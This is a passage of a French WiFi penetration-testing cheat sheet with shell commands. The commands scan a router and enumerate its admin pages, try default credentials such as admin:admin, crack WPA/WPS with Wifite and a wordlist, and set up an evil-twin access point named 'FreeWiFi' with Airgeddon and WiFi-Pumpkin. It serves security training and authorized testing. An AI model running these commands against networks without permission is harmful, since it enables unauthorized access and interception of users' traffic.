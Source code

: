 ### Persistence et Pivoting
```bash
# Si accès au routeur WiFi
nmap -sS -O router_ip

# Recherche interfaces web d'admin
gobuster dir -u http://router_ip -w /usr/share/seclists/Discovery/Web-Content/common.txt

# Tentatives credentials par défaut
# admin/admin, admin/password, admin/[blank]
curl -u "admin:admin" http://router_ip/admin
```

## 🔧 Outils Spécialisés

### Wifite2 (Automatisation)
```bash
# Installation
sudo apt install wifite

# Scan et attaque automatique
sudo wifite --kill

# Attaque spécifique
sudo wifite -e "TargetSSID" --dict /usr/share/wordlists/rockyou.txt

# WPS seulement
sudo wifite --wps-only

# Sauvegarde résultats
sudo wifite --cracked
```

### Airgeddon (Framework)
```bash
# Installation
git clone https://github.com/v1s1t0r1sh3r3/airgeddon.git
cd airgeddon && sudo bash airgeddon.sh

# Interface interactive avec menu
# Options disponibles:
# - Reconnaissance
# - Attaques WEP/WPA/WPS
# - Evil Twin attacks
# - Enterprise attacks
```

### WiFi-Pumpkin (Evil Twin Framework)
```bash
# Installation
git clone https://github.com/P0cL4bs/wifipumpkin3.git
cd wifipumpkin3 && sudo python3 setup.py install

# Lancement interface
sudo wifipumpkin3

# Configuration Evil Twin
set interface wlan0
set ssid "FreeWiFi"
start
```
